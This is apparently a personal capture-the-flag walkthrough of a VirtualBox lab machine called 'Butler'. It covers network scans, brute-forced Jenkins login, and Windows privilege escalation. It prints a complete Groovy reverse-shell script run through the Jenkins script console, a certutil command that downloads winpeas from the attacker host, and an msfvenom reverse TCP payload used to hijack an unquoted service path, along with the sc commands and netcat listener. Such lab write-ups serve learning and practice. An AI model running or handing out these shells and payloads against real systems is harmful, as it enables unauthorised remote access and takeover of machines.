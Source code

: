 # 11.4 Butler

## Arp Scan
```bash
[sudo] password for kali: 
Interface: eth0, type: EN10MB, MAC: 08:00:27:0e:34:8d, IPv4: 192.168.17.5
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.17.3    08:00:27:a5:9e:b0       PCS Systemtechnik GmbH
192.168.17.10   08:00:27:fe:17:f0       PCS Systemtechnik GmbH
```

## Nmap scan
```bash
# Nmap 7.91 scan initiated Sat Sep 18 09:03:16 2021 as: nmap -T4 -A -oA nmap/scan 192.168.17.10
Nmap scan report for 192.168.17.10
Host is up (0.00057s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
8080/tcp open  http          Jetty 9.4.41.v20210516
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.41.v20210516)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
MAC Address: 08:00:27:FE:17:F0 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1709 - 1909
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 9h59m59s
|_nbstat: NetBIOS name: BUTLER, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:fe:17:f0 (Oracle VirtualBox virtual NIC)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-18T23:03:39
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.57 ms 192.168.17.10

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep 18 09:03:44 2021 -- 1 IP address (1 host up) scanned in 28.22 seconds

```

## Enumerating port 8080

- Discover Jenkins login page
- Bruteforce credentials and discover `jenkins:jenkins` (cheated tho)
- Research jenkins exploits 

## Exploiting Jenkins
- Research jenkins vulnerabilities and find that the best way to gain a shell is through the groovy script feature under the manage section.
- Exploit blog: https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6
-
```groovy
String host="192.168.17.5";
int port=1234
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Enumerating the windows machine for potential priv-esc
- Dig around machine and discover downloaded file:

![[Pasted image 20210918235731.png]]

>Always check the time that the file was last modified to gain more clues or insight on CTF style machines


- Use winpeas
- Download it onto machine using the following command:
- certutil.exe -urlcache -f http://192.168.17.5:80/winpeas.exe winpeas.exe
![[Pasted image 20210918234306.png]]
- Run winpeas and discover that there is no quotes and space (Unquoted service paths) detected with the ability to modify this service:
![[Pasted image 20210918234629.png]]
- Basically, the service executible is located in a path that is not enclosed in quotes and there is a space detected. The issue is that when windows runs this it looks for every instance that exists before the space and tries to add ".exe" (taken from video explanation).
- We can hijack this process to become root.

## Becoming root
- Generate reverse tcp shell with msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.17.5 LPORT=4444 -f exe -o bad.exe
```

- Download file onto machine in the correct directory:

![[Pasted image 20210918235352.png]]

- Check services running on machine `sc query`
- Stop Wise `sc stop WiseBootAsistant`
- Query Wise `sc query WiseBootAssistant`
- Start your netcat listener on attacker machine `nc -lvnp 4444`
- Restart Wise `sc start WiseBootAssistant`
- We are root
